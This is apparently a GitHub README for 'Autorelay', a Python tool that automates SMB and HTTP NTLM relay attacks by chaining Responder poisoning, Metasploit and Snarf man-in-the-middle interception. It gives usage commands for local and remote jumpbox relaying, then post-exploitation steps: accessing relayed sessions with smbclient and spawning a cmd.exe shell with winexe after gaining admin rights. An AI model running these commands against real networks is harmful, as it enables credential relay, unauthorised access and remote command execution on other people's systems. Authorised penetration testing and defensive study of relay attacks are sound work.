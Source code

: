 # Autorelay

Automatically performs the SMB relay attack either locally or on a remote device. Uses Responder to poison, Metasploit for HTTP NTLM relay (rather than just SMB relay), and Snarf for the MITM'ing. When using locally, only requires an interface and an nmap XML file of the target network to determine SMB hosts. When used for SMB relaying on a jumpbox, requires the IP address of the jumpbox.


## Usage

#####Local

* python autorelay.py -x local-network.xml -i eth0

#####Remote

* python autorelay.py -x remote-network.xml -i eth0 -r 95.34.53.243 

---


Point your local browser to http://localhost:4001 and refresh it periodically to see your MITM'd connections


After a connection is expired (or you expire it), click "choose"


Run this command locally if relaying locally or run it on the jumpbox if you're relaying remotely: smbclient -U a%a //127.0.0.1


Alternatively, if you gain admin rights through the SMB connection spawn a shell with: winexe -U a%a //127.0.0.1 -U cmd.exe

